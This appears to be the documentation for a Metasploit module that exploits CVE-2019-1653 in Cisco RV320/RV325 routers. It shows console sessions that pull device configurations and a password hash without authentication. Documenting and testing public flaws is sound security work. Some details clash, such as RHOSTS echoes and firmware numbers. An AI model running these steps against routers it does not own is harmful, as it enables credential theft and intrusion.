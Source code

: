 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  There has also been some discussion of an exposed port `:8007` that is WAN accessible, but my testing has not shown this port open on version `1.2.14.17`.  On version `1.2.14.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled).

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 6. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
>```
 5. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN side, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 172.16.0.34
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19):

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
172.16.0.34  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
172.16.0.34  192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
172.16.0.34           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
